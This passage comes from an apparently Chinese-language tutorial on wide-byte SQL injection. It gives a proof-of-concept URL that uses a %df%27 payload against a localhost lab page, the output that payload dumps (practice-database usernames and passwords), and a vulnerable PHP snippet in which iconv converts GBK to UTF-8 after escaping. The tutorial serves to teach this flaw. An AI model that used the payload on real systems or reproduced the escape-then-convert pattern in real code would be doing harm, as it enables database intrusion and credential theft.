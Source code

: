 poc
```shell
http://127.0.0.1/multi-bytes-inject-1.php?userName=Dumb%df%27%20or%201=1%20%23
```
result
```shell
userName : Dumb 
pass : Dumb 
userName : Angelina 
pass : I-kill-you 
userName : Dummy 
pass : p@ssword 
userName : secure 
pass : crappy 
userName : stupid 
pass : stupidity 
userName : superman 
pass : genious 
userName : batman 
pass : mob!le 
userName : admin 
pass : admin 
userName : admin1 
pass : admin1 
userName : admin2 
pass : admin2 
userName : admin3 
pass : admin3 
userName : dhakkan 
pass : dumbo 
userName : admin4 
pass : admin4
```
**2、 incov带来的风险 gbk -> utf-8**

这个问题可能会出现在统一字符集操作的位置，比如用户输入gbk，后台数据库服务器为utf-8，这里的问题出现在转码之前
```php
<?php
include_once("con.php");
if(!$_GET['userName']){
    die("please input GET method userName param");
}
$userName = mysqli_real_escape_string($con,$_GET['userName']);
$encodeuserName = iconv("GBK","UTF-8",$userName);
$sql = "select * from users where username = '{$encodeuserName}'";
$result = mysqli_query($con,$sql);
if(!$result){
    die(mysqli_error($con));
}
while($row = mysqli_fetch_row($result)){
    printf("userName : %s <br /> pass : %s <br />",$row[1],$row[2]);
}
mysqli_free_result($result);
mysqli_close($con);
?>
```
上面这段代码的问题和第一个问题不太一样，这里的问题出在php代码层，虽然这里的利用和第一个问题的利用是一样的，但是这里的gbk“吃“字符出现在php代码中的编码转换中也就是在gbk -> utf-8之前，输入的值就经过“吃“字符，“吃”掉了转义符号，后面的流程就是一样的了
